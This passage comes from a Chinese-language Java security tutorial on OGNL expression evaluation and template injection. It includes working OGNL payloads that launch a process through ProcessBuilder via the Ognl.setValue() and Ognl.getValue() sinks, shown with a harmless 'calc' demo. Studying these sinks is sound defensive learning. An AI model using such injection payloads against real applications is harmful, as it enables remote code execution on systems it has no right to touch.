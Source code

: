 Ognl会将 `#one` 表达式的结算结果， **再次作为一个Ognl表达式去解析** ，并且会将括号内的表达式的计算结果作为本次解析的的root对象。

第一个表达式的计算结果可能是任何类型的对象，如果它是一个 `AST` 类型的对象，那么Ognl会使用这个 `AST` 对象去解析（对应的root对象就是括号内表达式的计算结果）。如果第一个表达式的计算结果不是一个 `AST` 类型的对象，那么Ognl会把它当成一个字符串进行处理，将其转成一个 `AST` 对象然后再去解析。

此外，可能存在一种冲突情况，例如我用如下方式进行上述操作：

```
name(#two)
```

运行后将得到非预期结果，因为这里的 `name` 会被当成root对象的一个方法进行调用，将得到类似如下错误：

```java
java.lang.NoSuchMethodException: com.pinger.javasec.ssti.ognl.pojo.User.name(java.lang.String)
```

要想能正常进行 `Expression Evaluation` ，需要将name括起来，强制性的进行 `Expression Evaluation` ：

```
(name)(#two)
```

这样，Ognl就不会把name当成root对象的方法来调用了。

## Ognl SSTI Sink

**(1) 常规手法**

Ognl SSTI，要能成功解析表达式，需要执行到 `Ognl.getValue()` 或者 `Ognl.setValue()` 才能成功触发。例如 `Ognl.setValue()` 触发RCE：

```java
/**
 * Ognl setValue() SSTI
 */
public static void sinkOne()throws Exception{
    String expression="((new java.lang.ProcessBuilder(new java.lang.String[]{\"calc\"})).start())(1)";
    OgnlContext context = new OgnlContext();
    Ognl.setValue(expression,context,"");
}
```

例如 `Ognl.getValue()` 触发RCE：

```java
/**
 * Ognl getValue() SSTI
 */
public static void sinkTwo()throws Exception{
    String expression="(new java.lang.ProcessBuilder(new java.lang.String[]{\"calc\"})).start()";
    OgnlContext context = new OgnlContext();
    Ognl.getValue(expression,context,"");
}
```

这里需要注意的就是，通过 `Ognl.setValue()` 方式来进行SSTI，需要使用Ognl的 `Expression Evaluation` 特性，否则不允许进行创建对象、调用静态方法等操作。而 `Ognl.getValue()` 则不需要考虑这个问题。

